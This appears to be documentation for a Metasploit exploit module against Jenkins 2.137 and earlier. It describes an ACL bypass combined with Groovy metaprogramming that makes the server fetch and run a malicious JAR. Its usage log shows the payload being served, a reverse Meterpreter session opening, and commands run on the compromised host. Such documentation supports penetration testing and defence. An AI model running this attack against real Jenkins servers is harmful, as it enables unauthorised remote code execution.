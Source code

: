 ## Intro

This module exploits a vulnerability in Jenkins dynamic routing to
bypass the `Overall/Read` ACL and leverage Groovy metaprogramming to
download and execute a malicious JAR file.

The ACL bypass gadget is specific to Jenkins <= 2.137 and will not work
on later versions of Jenkins.

Tested against Jenkins 2.137 and Pipeline: Groovy Plugin 2.61.

## Setup

1. `git clone https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc`
2. `cd cve-2019-1003000-jenkins-rce-poc/sample-vuln`
3. Edit `run.sh` and change `2.152-alpine` to `2.137`
4. `./run.sh`

## Targets

```
Id  Name
--  ----
0   Jenkins <= 2.137 (Pipeline: Groovy Plugin <= 2.61)
```

## Options

**RPORT**

Set this to the Jenkins port. The default is 8080.

**TARGETURI**

Set this to the Jenkins base path. The default is `/`.

**SRVPORT**

Set this to the port on which to serve the payload. Change it from 8080
to something like 8081 if you are testing Jenkins locally on port 8080.

**ForceExploit**

Set this to `true` to override the `check` result during exploitation.

## Usage

```
msf5 exploit(multi/http/jenkins_metaprogramming) > run

[*] Started HTTPS reverse handler on https://192.168.1.2:8443
[*] Jenkins 2.137 detected
[+] Jenkins 2.137 is a supported target
[+] ACL bypass successful
[*] Using URL: http://0.0.0.0:8081/
[*] Local IP: http://192.168.1.2:8081/
[*] Sending Jenkins and Groovy go-go-gadgets
[*] HEAD /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.pom requested
[-] Sending 404
[*] HEAD /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.jar requested
[+] Sending 200
[*] GET /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.jar requested
[+] Sending payload JAR
[*] https://192.168.1.2:8443 handling request from 192.168.1.2; (UUID: qlrpxu6t) Staging java payload (54399 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.2:8443 -> 192.168.1.2:58688) at 2019-03-15 18:57:24 -0500
[*] Server stopped.
[!] This exploit may require manual cleanup of '$HOME/.groovy/grapes/CarisaChristiansen' on the target

meterpreter > getuid
Server username: jenkins
meterpreter > sysinfo
Computer    : 6f21b8da2915
OS          : Linux 4.9.93-linuxkit-aufs (amd64)
Meterpreter : java/linux
meterpreter >
```
